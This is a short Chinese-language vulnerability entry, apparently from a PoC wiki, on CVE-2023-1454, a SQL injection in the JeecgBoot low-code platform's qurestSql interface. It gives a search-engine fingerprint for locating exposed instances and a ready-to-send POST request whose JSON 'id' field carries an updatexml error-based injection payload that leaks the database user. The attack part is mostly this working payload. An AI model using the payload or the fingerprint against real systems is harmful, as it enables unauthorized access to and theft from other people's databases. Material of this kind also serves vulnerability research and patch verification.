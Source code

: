 # JeecgBoot 企业级低代码平台 qurestSql SQL注入漏洞 CVE-2023-1454

## 漏洞描述

JeecgBoot 企业级低代码平台 qurestSql接口存在 SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库中的敏感数据，进一步攻击

## 漏洞影响

<a-checkbox checked>JeecgBoot 企业级低代码平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="JeecgBoot-企业级低代码平台"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1682420232051-1d3e49d3-7a22-4d59-ac7c-236c0bf1c43f.png)

验证POC

```php
POST /jeecg-boot/jmreport/qurestSql HTTP/1.1
Content-Type: application/json

{"apiSelectId":"1290104038414721025",
"id":"1' or '%1%' like (updatexml(0x3a,concat(1,(select current_user)),1)) or '%%' like '"}
```

![img](/assets/PeiQi-Wiki/img/1682420079923-7ddb27e1-df81-402f-a87e-7f06c2d119c9.png)